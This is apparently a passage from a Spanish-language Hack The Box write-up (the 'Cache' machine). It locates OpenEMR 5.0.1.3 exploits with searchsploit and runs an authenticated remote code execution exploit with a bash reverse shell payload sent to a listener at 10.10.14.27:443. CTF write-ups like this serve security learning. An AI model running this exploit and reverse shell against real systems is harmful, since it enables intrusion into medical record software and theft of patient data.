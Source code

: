 ```bash
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                                       | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                                        | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                                        | php/webapps/45161.py
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated)                                    | php/webapps/50037.py
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) (2)                                | php/webapps/50087.rb
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

Vemos varios que nos pueden ayudar y que requerimos de credenciales, las cuales ya las tenemos, así que vamos a descargarnos uno.

```bash
❯ searchsploit -m php/webapps/45161.py
  Exploit: OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/45161
     Path: /usr/share/exploitdb/exploits/php/webapps/45161.py
File Type: ASCII text

Copied to: /home/k4miyo/Documentos/HTB/Cache/exploits/45161.py
❯ mv 45161.py openemr_rce.py
```

Si lo ejecutamos:

```bash
❯ python2 openemr_rce.py
usage: openemr_rce.py [-h] [-u USER] [-p PASSWORD] [-c CMD] host
openemr_rce.py: error: the following arguments are required: host
```

Vemos que nos pide algunos parámetros e incluso, si le echamos un ojo al exploit, nos da un ejemplo de uso para obtener una reverse shell, así que vamos a seguirlo y de paso, nos ponemos en escucha por el puerto 443.

```bash
❯ python2 openemr_rce.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'nohup bash -i >& /dev/tcp/10.10.14.27/443 0>&1 &'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
[$] Payload executed
```
